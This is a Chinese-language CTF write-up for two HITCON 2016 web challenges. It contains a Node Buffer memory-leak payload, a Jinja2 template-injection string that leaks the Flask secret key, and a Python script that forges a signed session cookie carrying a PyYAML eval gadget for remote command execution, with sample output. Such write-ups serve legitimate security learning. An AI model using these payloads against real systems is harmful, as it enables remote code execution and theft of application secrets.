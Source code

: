 title: HITCON 2016 web 总结
date: 2016-10-14 16:32:06
tags: 
- web
- ctf
---

OTP和RSA遇到困难, 先发篇web的出来
本次HITCON, 我看了两题web, Leaking和Secure Post, 都挺有意思的

<!--more-->

# Leaking(Web 200)

![leak1](http://qn.lazysheep.cc/img/leak1.png)

> 源码: <https://github.com/Hcamael/CTF_repo/blob/master/HITCON/Leaking/index.js>

代码很简单, 很明显是绕vm2沙箱之类的黑魔法, 比较幸运, 搜到了相关资料: <https://github.com/ChALkeR/notes/blob/master/Buffer-knows-everything.md>

然后根据这里面的内容, 很容易就可以构造出payload:

```
/?data[]=for (var step = 0; step < 100000; step++) {var buf = (new Buffer(100)).toString('ascii');if (buf.indexOf("hitcon{") !== -1) {break;}}buf;
```

首先是通过数组bypass长度限制, 然后之后就是使用`Buffer`获取内存中的数据, 具体细节不是很清楚, 没有深入分析过, 感觉像是nodejs内存分配上的问题

这个payload不是每次都可以成功泄露出flag, 所以需要运行多次

![leak2](http://qn.lazysheep.cc/img/leak2.png)

# Secure Post(Web 50/150)

![spost](http://qn.lazysheep.cc/img/secpost.png)
![spost2](http://qn.lazysheep.cc/img/secpost2.png)

> 源码: <https://github.com/Hcamael/CTF_repo/tree/master/HITCON/Secure%20Posts%20and%202>

python flask web代码审计题, 挺有意思的, 有两个flag, 所以分为了两题

老司机能很熟练的找到问题点:
```
def render_template(filename, **args):
    with open(safe_join(app.template_folder, filename)) as f:
        template = f.read()
    name = session.get('name', 'anonymous')[:10]
    return render_template_string(template.format(name=name), **args)
```

很明显是模板注入, 关于模板注入推荐一篇文章: <http://rickgray.me/2016/02/24/use-python-features-to-execute-arbitrary-codes-in-jinja2-templates.html>

但是文章中的payload明显不能用, 因为:
```
name = request.form.get('author', 'anonymous')[:10]
```

name字段限制了10个byte的长度, 第一题分低, 相对的也比较简单
```
app.secret_key = config.flag1
```

所以可以读取配置信息:
```
{{config}}
```

![secu1](http://qn.lazysheep.cc/img/secu1.png)

![secu2](http://qn.lazysheep.cc/img/secu2.png)

可以看到
```
'SECRET_KEY': 'hitcon{>_<---Do-you-know-<script>alert(1)</script>-is-very-fun?}'
```

flag1 get

第二步根据经验可以判断出应该是执行命令, 读文件之类的.

```
def load_posts():
    handlers = {
        # disabled insecure data type
        #"eval": load_eval,
        #"pickle": load_pickle,

        "json": load_json,
        "yaml": load_yaml
    }
```

源码中这段, 把可以执行命令的危险数据类型给注释了, 不过还是漏了yaml

参考文档: <http://pyyaml.org/wiki/PyYAMLDocumentation>

yaml load同样可以造成命令执行

```
>>> data = """!!python/object/apply:os.system
... args: [id]"""

>>> yaml.load(data)
uid=1000(hehe) gid=1000(hehe) groups=1000(hehe),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare),129(wireshark)
0
```

不过在这之前还存在一个问题, 数据在load之前, 都会经过一个dump, 那么如果绕过这个dump呢?

这就涉及到flask的session机制了, 不像php, seesion是保存在`/tmp/sess_$_COOKIE['PHPSESSID']` 文件中

flask通过secret_key对seesion进行加密, 然后保存在cookie中, 通过上一步我们获取到的secret_key我们就能构造任意cookie了

payload:
```
import yaml  
from flask.sessions import SecureCookieSessionInterface

key = r"hitcon{>_<---Do-you-know-<script>alert(1)</script>-is-very-fun?}"

class App(object):  
    def __init__(self):
        self.secret_key = None

def load_yaml(data):  
    import yaml
    return yaml.load(data)

exploit = """!!python/object/apply:eval
args: ["[{'title': 'b', 'date': 'October 10, 2016 05:36:11', 'author': 'a', 'content': __import__('os').popen('id').readlines()}]"]
"""

exploit = {'post_type': u'yaml',  
           'post_data': exploit}

app = App()  
app.secret_key = key

# Encode a session exactly how Flask would do it
si = SecureCookieSessionInterface()  
serializer = si.get_signing_serializer(app)  
session = serializer.dumps(exploit)

print("Change your session cookie to: ")  
print(session)

```

以上为构造cookie的代码

下面加上了攻击代码

payload2
```
import yaml  
import re
import requests
from flask.sessions import SecureCookieSessionInterface

key = r"hitcon{>_<---Do-you-know-<script>alert(1)</script>-is-very-fun?}"

class App(object):  
    def __init__(self):
        self.secret_key = None

def load_yaml(data):  
    import yaml
    return yaml.load(data)

exploit = """!!python/object/apply:eval
args: ["[{'title': 'b', 'date': 'October 10, 2016 05:36:11', 'author': 'a', 'content': __import__('os').popen('cat flag2').readlines()}]"]
"""

exploit = {'post_type': u'yaml',  
           'post_data': exploit}

app = App()  
app.secret_key = key

# Encode a session exactly how Flask would do it
si = SecureCookieSessionInterface()  
serializer = si.get_signing_serializer(app)  
session = serializer.dumps(exploit)

print("Change your session cookie to: ")  
print(session)

url = "xxxxx"

cookie = {"session": session}

r = requests.get(url, cookies=cookie)
print re.findall("(hitcon{.*})", r.content)
```

返回结果:
```
$ python payload2.py
Change your session cookie to: 
.eJwlj0FrgzAARv_KyHmHLM5BCz1YQTFOC9ppzGWYxEWdRoeuMZb-99n1-sH7Hu8KxmGaP0U5l2B_BU8M7EGQeroiycDQ64Uh_EPzGL4jT3N_sU99hopchwXBiq-DzA1mlRGwJMlEU_4WuKLBRkuMklr4H-rUOOqMYrj9dLxxlsjVMmqdJW4cHZ-HNW6HJUr5tHG1uDut4J8pHlvLkA1pbkO8ucjLbmTkeOEq-SJGKmZFKkxtzaxjxxqpCuTBwKdTkXODzfcv77Oa-svI-mwN3W5HUixceTiA2_OjejZjtfWasu_A7Q9r1lu4.CuNO7A.FE48aONgxecQpjbPEBOv5PgQdbo
['hitcon{unseriliaze_is_dangerous_but_RCE_is_fun!!}']
```
